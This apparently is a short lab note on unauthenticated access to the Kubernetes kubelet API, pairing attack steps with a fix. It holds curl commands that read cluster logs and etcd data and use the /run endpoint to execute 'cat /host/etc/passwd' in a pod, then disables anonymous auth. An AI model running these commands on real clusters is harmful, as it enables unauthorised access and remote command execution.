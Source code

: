 
# get infos

curl -k https://$IP:10250/metrics
curl -k https://$IP:10250/logs/
curl -k https://$IP:10250/logs/pods/    <!-- last slash is important -->\
curl -k https://$IP:10250/logs/pods/kube-system_etcd-lod_25977589a391e2bdeecfd7f56555caca/etcd/0.log

curl some pod

# get sensitive data

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

# fix it

vi /var/lib/kubelet/config.yaml
=> enabled: false
=> mode: Webhook
<!-- systemctl daemon-reload -->
systemctl restart kubelet
<!-- systemctl status kubelet -->

... run curls again
